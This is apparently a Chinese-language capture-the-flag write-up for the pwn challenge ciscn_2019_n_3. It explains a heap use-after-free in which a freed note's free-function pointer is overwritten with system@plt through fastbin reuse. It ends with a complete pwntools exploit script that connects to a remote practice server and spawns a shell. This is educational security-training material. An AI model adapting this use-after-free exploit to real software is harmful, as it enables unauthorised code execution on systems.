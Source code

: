 ```yaml
---
title: ciscn_2019_n_3
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
---
```


ciscn_2019_n_3，对UAF的利用
<!-- more -->

查壳,32位，除了PIE和RELRO其他都开了
![check](./ciscn_2019_n_3/check.png)

反汇编之后可以看到是个经典的菜单堆题。有四个功能，new note、del note、show note和purchase，购买的功能可以忽略。

note分为两种，一种是记录数字的，一种是记录字符串的，但结构是类似的，每个note的user data都是0xc大小。

```c
struct note
{
    int (*rec_print)(int);  //存放自定义print函数的函数指针，记录数字和记录字符串的print函数不一样
    int (*rec_free)(void*); //存放自定义free函数的函数指针，记录数字和记录字符串的free函数不一样
    int Integer;    //存放数字时是这样
    char* Text;     //存放字符串时是这样，会通过malloc(length)分配内存
}
```

main函数中存在system()函数，因此这次不用泄露libc得到system地址了。

这题主要的漏洞点在note的free函数中，在free后没有对指针赋NULL，存在UAF。

```c
int __cdecl rec_str_free(void *ptr)
{
  free(*((void **)ptr + 2));
  free(ptr);
  return puts("Note freed!");
}
```

可以看到并没有对record[index]赋NULL，因此即使del了一个note，该note仍然能被利用执行他的功能，如show note和del note。

```c
int do_del()
{
  int v0; // eax

  v0 = ask("Index");
  return (*(int (__cdecl **)(int))(records[v0] + 4))(records[v0]);
}
```

这题中show和del都是依靠存放在note中的函数指针去实现的，我们可以尝试改写函数指针位置的内容为system，再调用对应的功能，就可以执行system函数。show note因为执行的是(*(int (__cdecl **)(int))(records[v0]))(records[v0])，不能执行system("/bin/sh")，因此考虑修改自定义的free函数指针。

修改函数指针则利用了fast bin的机制，执行free时，如果chunk的大小在fast bin范围内，会先放入fast bin，之后malloc的时候，如果malloc的chunk大小在fast bin的范围内，会优先在fast bin中查找有没有刚好满足大小的chunk，如果有，则直接返回。

而记录字符串的note会根据字符串的长度length申请一个chunk来存放字符串，通过设置length==0xc，可以申请到我们之前free的chunk，那么我们可以利用这个字符串来修改chunk中的数据，修改free函数指针为system，修改第一个4byte为"sh\x00\x00"，之后利用UAF，执行已经释放的note的del功能，就可以执行system("sh\x00\x00")了。

堆布局：
1.先申请两个integer note，并先后free掉
2.申请一个text note,并设置length==0xc，写入"sh\x00\x00"和system@plt
3.执行对应integer note的del note功能get shell。

```python
from pwn import*
elf=ELF("./ciscn_2019_n_3")
#p=process("./ciscn_2019_n_3")
p=remote('node4.buuoj.cn',29707)
context.log_level='debug'
sys=elf.plt['system']

def add_note(idx,type,size,value):
	p.recvuntil('CNote > ')
	p.sendline('1')
	p.recvuntil('Index > ')
	p.sendline(str(idx))
	p.recvuntil('Type > ')
	if type == 1:
		p.sendline('1')
		p.recvuntil('Value > ')
		p.sendline(str(value))
	else:
		p.sendline('2')
		p.recvuntil('Length > ')
		p.sendline(str(size))
		p.recvuntil('Value > ')
		p.sendline(str(value))
	p.recvuntil('Here is it:')

def del_note(idx):
	p.recvuntil('CNote > ')
	p.sendline('2')
	p.recvuntil('Index > ')
	p.sendline(str(idx))

def dump_note(idx):
	p.recvuntil('CNote > ')
	p.sendline('3')
	p.recvuntil('Index > ')
	p.sendline(str(idx))


add_note(0,1,0,1234)
add_note(1,1,0,5678)
del_note(1)
del_note(0)
payload="sh\x00\x00"+p32(sys)
add_note(2,2,12,payload)
del_note(1)
p.interactive()
```






